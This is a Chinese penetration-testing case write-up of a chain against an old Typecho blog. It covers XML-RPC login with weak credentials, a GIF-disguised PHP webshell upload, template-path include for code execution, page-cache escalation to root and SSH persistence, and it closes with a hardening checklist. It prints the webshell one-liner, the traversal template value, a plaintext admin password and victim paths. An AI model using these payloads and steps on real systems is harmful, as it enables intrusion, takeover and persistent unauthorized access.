

# Typecho XML-RPC → RCE → Root 红队链路案例

> **定位**：渗透 / 红队方法论笔记（案例复盘）  
> **一句话**：不是单点 0day，而是 **老 CMS 接口 + 路径约束 + 模板 include + CDN 入口 + 内核页缓存提权 + SSH 持久化** 拼成的完整链路。

---

## 0. 目标画像

| 项 | 内容 |
|----|------|
| 目标 | 受害站点（案例：Typecho 博客） |
| CMS | **Typecho 1.1 / 17.10.30** |
| 主题 | **Mirages 7.10.0** |
| 观感 | 普通博客，老版本 |
| 初始权限 | 无 |
| 最终权限 | **root（SSH）** |

### 攻击链路总览

```text
Recon
  → XML-RPC 弱口令
  → metaWeblog.newMediaObject 上传 webshell（bytes + 短 CRC32）
  → 独立页 template 相对路径 include → RCE (www)
  → CloudFront 入口稳定访问 shell
  → CVE-2026-31431 页缓存污染 su → root
  → 改 shadow / sshd → SSH 持久化
```

---

## 1. 信息收集（Recon）

### 1.1 指纹

- 确认 CMS：**Typecho 1.1/17.10.30**
- 确认主题：**Mirages 7.10.0**
- 站点形态普通，典型「能跑就行」的老站

### 1.2 后台与接口

| 发现 | 说明 |
|------|------|
| 后台路径改名 | 如 `/admin-nnnppp2/` |
| Nginx 403 | Web 后台进不去 |
| **XML-RPC 仍开放** | 关键攻击面仍在 |
| 弱口令 | 管理员 `mayuan:666666` |

### 1.3 本阶段结论

- 后台 403 **不阻断**攻击链  
- **XML-RPC + 弱口令** 足够进入「可写」能力面  
- 运维误区：藏后台路径 ≠ 关闭危险接口

---

## 2. 认证与上传面（Access）

### 2.1 认证

- 使用弱口令通过 XML-RPC 认证  
- 不依赖被 403 的 Web 后台

### 2.2 关键接口

Typecho 支持 WordPress 兼容接口：

```text
metaWeblog.newMediaObject
```

### 2.3 考点 / 坑点

| 点 | 正确 | 错误 |
|----|------|------|
| 二进制字段名 | **`bytes`** | `bits`（会失败） |

> 红队笔记：兼容层接口最容易「文档是 WP、实现差一个字段名」。

---

## 3. 上传 Webshell（Weaponization）

### 3.1 落盘规则

```text
/usr/uploads/YYYY/MM/{crc32}.{ext}
```

| 约束 | 含义 |
|------|------|
| CRC32 | 由**文件内容**计算，**十进制** |
| 路径长度 | 模板字段约 `varchar(32)`，路径不能过长 |
| 实战技巧 | CRC32 尽量 **≤ 6 位数字**，方便塞进相对路径 template |

### 3.2 Payload 思路

```php
GIF89a<?php system($_REQUEST["c"]); ?>
```

- 用 GIF 头做轻量伪装  
- 内容仍可被 PHP `include` 执行  
- 该 payload 内容 CRC32 = **957963**（六位，满足路径约束）

### 3.3 落点示例

```text
/usr/uploads/2026/07/957963.gif
```

（`YYYY/MM` 随上传时间变化；CRC 由内容决定。）

---

## 4. 模板包含拿 RCE（Exploitation）

### 4.1 机制

Typecho **独立页** 支持自定义 `template`。  
若写成**相对路径**，PHP 会 **`include` 该文件**。

### 4.2 操作步骤

1. 建/改独立页  
   - 示例：`cid=112333`，`slug=L0370`  
2. 模板设为：

```text
../../uploads/2026/07/957963.gif
```

3. 访问页面 → include GIF+PHP → **代码执行**

### 4.3 Shell 入口

- 示例：`/L0370.html?c=id`（经 CDN）  
- 优先走 **CloudFront** 等 CDN，比直打 Cloudflare 源站更稳  
- 执行身份：`www`（uid 1001）  
- 工作目录：站点 wwwroot（如 `/home/91cg/www`）

### 4.4 本阶段结论

```text
www 权限 webshell 已拿下
```

---

## 5. www → root 提权（Privilege Escalation）

### 5.1 环境

| 项 | 内容 |
|----|------|
| 系统 | Amazon Linux 2 |
| 内核 | `5.10.177-158.645.amzn2.x86_64` |
| 利用 | **CVE-2026-31431**（Copy Fail / 页缓存相关） |

### 5.2 逻辑链（笔记级，不展开 exploit 细节）

1. 使用 `copy_file_range` / `splice` 一类接口 **污染页缓存**  
2. 目标文件：`/usr/bin/su`  
3. 按 ELF 入口偏移 **动态计算写入位置**  
4. 触发 `su` → 拿到 **root**

### 5.3 易失 vs 永久

| 类型 | 说明 |
|------|------|
| **易失** | 页缓存投毒；重启 / 缓存回写后可能失效；webshell 重跑需再触发 |
| **永久** | 改系统配置与凭证（下一节） |

> 写报告时务必分开写：提权手段（易失）≠ 持久化手段（永久）。

---

## 6. 持久化（Persistence）

root 下做**配置级**持久化（示意）：

1. 修改 `/etc/shadow`（改 root/www 密码）  
2. 修改 `/etc/ssh/sshd_config`  
   - `PasswordAuthentication yes`  
   - `PermitRootLogin yes`（或按目标策略）  
3. `systemctl reload sshd`  
4. `ssh root@<公网IP>` 验证

---

## 7. 阶段对照表（可直接贴报告）

| 阶段 | 动作 | 结果 | 权限 |
|------|------|------|------|
| Recon | CMS/主题/后台/XML-RPC/弱口令 | 锁定攻击面 | 无 |
| Access | XML-RPC 登录 | 可调用上传 API | 应用管理员能力 |
| Upload | newMediaObject + 短 CRC payload | 落盘 webshell 文件 | 写 uploads |
| RCE | template 相对路径 include | 任意命令执行 | **www** |
| PrivEsc | 页缓存投毒 su | 提权成功 | **root（易失路径）** |
| Persist | shadow + sshd | SSH 落地 | **root（持久）** |

---

## 8. 关键技术点清单（背诵用）

1. **藏后台 ≠ 关接口**：XML-RPC 仍可能暴露认证与写能力  
2. **兼容接口字段名**：`bytes` vs `bits`  
3. **上传路径可预测**：`uploads/年/月/CRC.ext`  
4. **CRC 可构造**：内容决定 CRC，可刷到短十进制  
5. **template include**：相对路径 → 本地文件执行  
6. **CDN 入口**：CloudFront 等可能比源站 WAF 更好打/更稳  
7. **提权易失性**：页缓存类利用要配合配置持久化  
8. **多层拼凑**：单点都不「新」，链路完整才致命  

---

## 9. 防守视角 Checklist（蓝队 / 加固）

### Web / CMS

- [ ] 升级 Typecho 到受支持版本，或迁移  
- [ ] **关闭或鉴权 XML-RPC**（不需要就禁）  
- [ ] 强口令 + 2FA；禁止默认弱口令  
- [ ] 后台路径隐藏不能当唯一防护  
- [ ] 禁止独立页 template 使用**任意相对路径 include**  
- [ ] 上传目录：禁止 PHP 执行（`location ~ \.php$ { deny all; }` 等）  
- [ ] 上传类型白名单 + 内容嗅探，不信任扩展名/GIF 头  

### 主机 / 内核

- [ ] 内核升级，修复页缓存 / copy 相关 CVE  
- [ ] www 用户最小权限；禁用不必要的能力  
- [ ] 监控 `/usr/bin/su`、关键二进制完整性（AIDE 等）  

### SSH / 账号

- [ ] 禁止 root 密码登录；密钥登录  
- [ ] `PasswordAuthentication no`（按策略）  
- [ ] 改密告警、异常登录告警  

### 流量 / 入口

- [ ] 审计 CDN 回源与异常 slug/静态页带参  
- [ ] 关注 `uploads` 与独立页异常创建  

---

## 10. 一句话总结

> 从「看起来很普通的 Typecho 老站」，用 **XML-RPC 弱口令 + 可预测上传路径 + 模板 include** 拿到 www，再靠 **内核页缓存类提权** 上到 root，最后用 **SSH 配置** 做持久化——典型的 **多弱点串联红队链路**，适合作为渗透案例笔记与防守 checklist 对照。

---

## 附录：流程图（Mermaid）



---

*笔记用途：学习与复盘。仅在授权范围内测试；生产环境请优先落实第 9 节加固项。*
